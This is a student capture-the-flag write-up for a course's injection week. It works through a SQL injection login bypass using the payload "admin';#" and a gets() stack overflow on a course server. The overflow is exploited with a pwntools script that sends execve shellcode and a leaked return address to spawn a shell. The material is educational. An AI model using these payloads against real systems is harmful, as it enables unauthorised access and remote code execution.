

# Week 8: CTF

## Goal

> Explore injection vulnerabilities.

### Challenge 1

> First we started by checking <http://ctf-fsi.fe.up.pt:5003/> and explore the page.


> It is a simple web page that allows the user to login inserting a username and a password.
>
> We can try to use SQL injection to login even though we don't know the password. To see if we can perform SQL injection we must analyze the page code :

```php
$username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
               if ($result = $conn->query($query)) {
                                  
                  while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                    $_SESSION['username'] = $data['username'];
           
                    echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                    include "/flag.txt";
                    echo "</code>";

                 }
```

> The vulnerabilty is on this line :

```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

> We can insert on the username text to ignore the password and the query will just run to search for the username admin. The text that we will need to insert into the username will be something that will comment the password part like " admin';# " and in the password we can input anything because it will be commented :


> As you can see above, it will just perform a simple query finding a user with the name admin and because it will return that user it will enter the if statement and we will be logged in and able to see the flag:



### Challenge 2

> First we started by running checksec in our program to see it´s protections.

```bash
 /home/seed/Documents/CTF/semana8/desafio2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

> We can see that PIE is enabled which means that exists memory address randomization not allowing us to, like in challenges before, discover memory positions of variables and reuse them later. It is important to notice that NX is disabled which means that writable memory can be executed. This will be important for the exploit that we will use.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer); // this line has the vulnerability
    
    return 0;
}
```

> Now analysing the source code we see that the vulnerability is in the gets function because that function reads bytes from stdin until a character of termination is found. Our buffer only has size of 100 bytes so we can with gets write more than that and therefore create a buffer overflow.
>
> Exploiting gets() we can rewrite the return address to a place in memory where we have a large payload of shellcode and NOPs. If our code jump to the shellcode a shell will be launched and then we can execute:

```bash 
cat flag.txt
```

> The line bellow is very important because it will tell us where the buffer is located in memory instead of us having to guess.

```c
printf("Your buffer is %p.\n", buffer);
```

> We used the shellcode of the week5 task and like in the other buffer overflows challenges we needed to discover the offset between the ebp and the buffer in memory.
>
> We determined since there were no more variables that this offset will be 104 therefore the return address is 108 bytes from the beggining of the buffer.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

buff_adr = p.recvline_contains(b'Your buffer is').decode('utf-8')[17:25]

print("Buff:" + buff_adr)

buff_bytes = bytearray.fromhex(buff_adr)
buff_bytes.reverse()

p.recvuntil(b':')

offset = 108 #104 + 4

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

input = shellcode + b'\x90' * 81 + buff_bytes
p.sendline(input)
p.interactive()
```

> First we use p.recvline_contains to read from the output of the buffer memory position, then we transform that into a bytearray and then we reverse it because of little-endian.
> For our input we put the shellcode followed by 81 NOP's because 108 - size(shellcode) = 81 then we put the buffer memory address so that the function returns to the beggining of the buffer to then go to the shellcode and launch a shell.
>
> With the shell, to obtain the flag we just do:

```bash
cat flag.txt
```